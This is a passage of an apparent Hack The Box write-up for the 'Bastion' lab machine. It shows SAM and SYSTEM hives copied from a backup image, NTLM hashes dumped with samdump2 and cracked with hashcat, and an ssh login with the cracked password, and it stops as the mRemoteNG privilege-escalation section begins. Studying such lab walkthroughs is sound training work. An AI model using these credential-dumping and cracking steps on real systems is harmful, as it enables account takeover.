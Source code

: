 I copy them from the mounted drive to my Kali box.

{% highlight plaintext %}
root@kali:~/vhd1/Windows/System32/config# cp SAM ~
root@kali:~/vhd1/Windows/System32/config# cp SYSTEM ~
{% endhighlight %}

To get the hashes, I use `samdump2` and pass the `SYSTEM` and `SAM` files as arguments.

{% highlight plaintext %}
root@kali:~# samdump2 SYSTEM SAM -o hashes.txt
root@kali:~# cat hashes.txt
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
{% endhighlight %}

The L4mpje hash takes seconds to crack with `hashcat`.

{% highlight plaintext %}
root@kali:~# hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force
{% endhighlight %}

The password for use L4mpje is __bureaulampje__. The Administrator and Guest account hashes are marked as `*disabled*`, so this is the best we'll get.

![](/images/bastion/image4.png)

To get in, I `ssh` as __L4mpje@10.10.10.134__ with the recovered password.

{% highlight plaintext %}
root@kali:~# ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password: 

Microsoft Windows [Version 10.0.14393]                                          
(c) 2016 Microsoft Corporation. All rights reserved.                            

l4mpje@BASTION C:\Users\L4mpje>    
{% endhighlight %}

The user flag is on L4mpje's Desktop.

{% highlight plaintext %}
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt                            
9bfe############################                                                   
{% endhighlight %}

# Privilege Escalation: mRemoteNG Credentials

With Windows privilege escalation, if nothing stands out in the Users folder, I move on to checking what software is installed. Here, `mRemoteNG` stands out.
